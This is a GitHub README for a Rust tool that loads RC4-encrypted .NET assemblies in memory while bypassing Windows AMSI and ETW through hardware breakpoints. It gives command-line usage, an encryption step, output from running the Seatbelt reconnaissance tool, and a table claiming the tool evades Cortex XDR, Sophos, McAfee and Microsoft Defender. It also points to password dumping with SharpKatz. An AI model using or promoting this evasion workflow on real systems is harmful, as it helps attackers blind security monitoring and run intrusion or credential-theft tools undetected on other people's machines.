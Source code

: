 # RustPatchlessCLRLoader
The RustPatchlessCLRLoader leverages a sophisticated integration of patchless techniques for bypassing both Event Tracing for Windows (ETW) and the Windows Antimalware Scan Interface (AMSI) across all threads with the goal of loading .NET assemblies dynamically by utilizing the [clroxide](https://github.com/yamakadi/clroxide) Rust library. It provides a robust solution for executing managed code stealthily without modifying system artifacts or triggering security mechanisms.

## Background
Leveraging hardware breakpoints for patchless bypass presents several strategic advantages in cybersecurity assessments. This method eschews the use of well-known APIs like VirtualProtect, which are often scrutinized by advanced security solutions, thereby reducing the likelihood of detection. Additionally, the utilization of hardware breakpoints eliminates the need for direct modifications to files. Such alterations are typically flagged by file integrity monitoring systems or Endpoint Detection and Response (EDR) technologies. As a result, employing hardware breakpoints enables a more covert operation, enhancing the stealth aspect of security maneuvers. 

## Payload Encryption
RC4 Encrypt Payload: https://github.com/c2pain/RC4_Encryptor

SharpCollection: https://github.com/Flangvik/SharpCollection

Example:
```
C:\Users\C2Pain\Desktop> rc4_encryptor.exe Seatbelt.exe
[+] Encrypted shellcode saved to: S-e-a-t-b-e-l-t-4.enc
```

## Usage
```
C:\Users\C2Pain\Desktop>RustPatchlessCLRLoader.exe
[+] RustPatchlessCLRLoader by C2Pain.
[+] Github: https://github.com/c2pain/RustPatchlessCLRLoader
[!] Usage: RustPatchlessCLRLoader.exe <RC4 Encrypted File> <Arguments>
[!] Example: RustPatchlessCLRLoader.exe S-e-a-t-b-e-l-t-4.enc AntiVirus
```

## Execution
```
C:\Users\C2Pain\Desktop>RustPatchlessCLRLoader.exe S-e-a-t-b-e-l-t-4.enc AntiVirus
[+] RustPatchlessCLRLoader by C2Pain.
[+] Github: https://github.com/c2pain/RustPatchlessCLRLoader
[+] Running S-e-a-t-b-e-l-t-4.enc with args: ["AntiVirus"]
[+] NtTraceControl Bypass invoked at address: 0x7FF9618B0DE0
[+] AMSI Bypass invoked at address: 0x7FF949BE3880
[+] Results:



                        %&&@@@&&
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                        &%%&&&%%%%%        v1.2.2         ,(((&%%%%%%%%%%%%%%%%%,
                         #%%%%##,


====== AntiVirus ======

  Engine                         : Windows Defender
  ProductEXE                     : windowsdefender://
  ReportingEXE                   : %ProgramFiles%\Windows Defender\MsMpeng.exe



[*] Completed collection in 0.038 seconds
```

## AV/EDR Testing Result on x64 Windows 10/11
The RustPatchlessCLRLoader has been tested with various antivirus products, such as loading the "Seatbelt" assembly without triggering any detection. It is important to note that while this loader effectively bypasses AMSI and ETW without detection, engaging in overtly malicious activities - such as using SharpKatz for password dumping, may activate behavioral detection mechanisms. 

Test Date: 2 Aug 2024
| AV/EDR Product | Execute |
| ------ | ------ |
| Palo Alto Cortex XDR | :white_check_mark: |
| Sophos Intercept X | :white_check_mark: |
| McAfee | :white_check_mark: |
| Microsoft Defender | :white_check_mark: |

## Screenshots
![Seatbelt](/screenshots/test1.png)
![Seatbelt](/screenshots/test2.png)

## ToDo
- [ ] Powershell scripts support.
- [ ] Fileless support with HTTP/HTTPS.

## Credits
@yamakadi implementation of rust library that allows to host the CLR and dynamically execute dotnet binaries. [Link](https://github.com/yamakadi/clroxide)

@BlackSnufkin implementation of PatchlessBypass AMSI and ETW in rust. [Link](https://github.com/BlackSnufkin/Rusty-Playground)
